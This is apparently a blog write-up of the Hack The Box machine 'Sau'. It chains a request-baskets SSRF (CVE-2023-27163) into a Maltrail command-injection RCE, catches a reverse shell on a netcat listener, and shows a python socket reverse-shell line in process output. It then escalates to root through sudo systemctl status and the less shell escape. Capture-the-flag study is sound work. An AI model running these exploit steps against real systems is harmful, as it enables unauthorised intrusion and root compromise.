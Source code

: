 ```yaml
---
layout: post
title: "HTB: Sau"
author: Andrew Cherney
date: 2024-01-06 14:01:27
tags: htb easy-box ssrf webapp
icon: "assets/icons/sau.png"
post_description: "The challenge of this box comes from searching of esoteric service versions and a small understanding of some Linux commands. There is a cool use of SSRF which uses a previous exploit to exploit a locally hosted service."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $nmap -sC 10.10.11.224
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-27 21:03 CDT
Nmap scan report for 10.10.11.224
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
```

Normally when I use common scripts with the **-sC** option it will return results from port 80 and 443 about the webpage. Here there is evidently no information being retrieved from whatever is hosted on port 80.

That port 55555 is peculiar however, so I'll try to enumerate its version and go from there.


```bash
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 28 Aug 2023 02:11:02 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 28 Aug 2023 02:10:35 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 28 Aug 2023 02:10:36 GMT
|_    Content-Length: 0
```

The page **/web** returns a 200 response which means there is a webserver being hosted on this port. 

![Port 55555 Webpage](/img/sau/sau_port_55555.png)

<h1>User as puma</h1>

<h2>request-baskets 1.2.1 SSRF</h2>

Looking around the webpage we can see the version of the service is **request-baskets version 1.2.1**, and in the cursory look for vulnerabilities I found [this SSRF exploit for version 1.2.1](https://github.com/entr0pie/CVE-2023-27163). This should allow me to interact with and enumerate the service on port 80.

That CVE works through an improperly secured **forwarded_url** and **proxy_response** parameter pair which allow server side redirection of traffic and functionally a proxy to relay it back.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $bash CVE-2023-27163.sh http://10.10.11.224:55555 http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "uibqua" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/uibqua now makes the server request to http://localhost:80/.
> Authorization: qfG-kBDhxT7X3j1NKwRqKLpSS2uj5K5_1S455l0TttzC
```

![SSRF to port 80 localhost](/img/sau/sau_ssrf_maltrail.png)

<h2>maltrail v0.53 RCE</h2>

Seems to have loaded a bit poorly but the substance is still visible. Namely there is a login button that does not properly work, though I can redirect to **http://localhost:80/login** and check for a response. 

Which we end up not seeing a login page but a response stating a bad request. [Here is an exploit-db post](https://www.exploit-db.com/exploits/51676) which outlines an RCE on this version of maltrails through command injection of the username parameter.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $python3 cve* 10.10.14.3 7777 http://10.10.11.224:55555/undrtk
Running exploit on http://10.10.11.224:55555/undrtk/login
Failed to forward request: Post http://localhost:80/login/login: EOF
```

Oh it looks like the maltrails exploit already appends **/login** to the url, guess I'll comment that out since I already have a basket with **/login**. 


The code I changed:
```
listening_IP = sys.argv[1]
listening_PORT = sys.argv[2]
target_URL = sys.argv[3] # + "/login"
print("Running exploit on " + str(target_URL))
curl_cmd(listening_IP, listening_PORT, target_URL)
```


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $python3 cve* 10.10.14.3 7777 http://10.10.11.224:55555/undrtk
Running exploit on http://10.10.11.224:55555/undrtk/login

```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Sau]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.224] 51746
$ whoami
whoami
puma
$ cd ~
cd ~
$ cat user.txt
cat user.txt
3af9547e0181e-------------------
```

<h1>Root</h1>

<h2>GTFOBins Less</h2>

After placing an ssh key for a better shell I turned to **sudo -l** as my first check. And the user puma has the ability to run **systemctl status** as sudo. Now systemctl itself with these restrictions prohibits us from creating or running a custom service. 

There is a quirk here to abuse, and that is that systemctl status utilizes the command **less** to display the results. When **less** is run you can gain or change shells within by typing **!/bin/bash**, and while sudo that will give us a root shell.

```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2023-08-27 16:39:15 UTC; 10h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 7 (limit: 4662)
     Memory: 21.3M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1543 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYy>
             ├─1544 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYy>
             ├─1547 sh
             ├─1548 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(>
             └─1549 /bin/sh

Aug 27 16:39:15 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
!/bin/bash
root@sau:/home/puma# cat ~/root.txt
8471e26dc2e185------------------
```
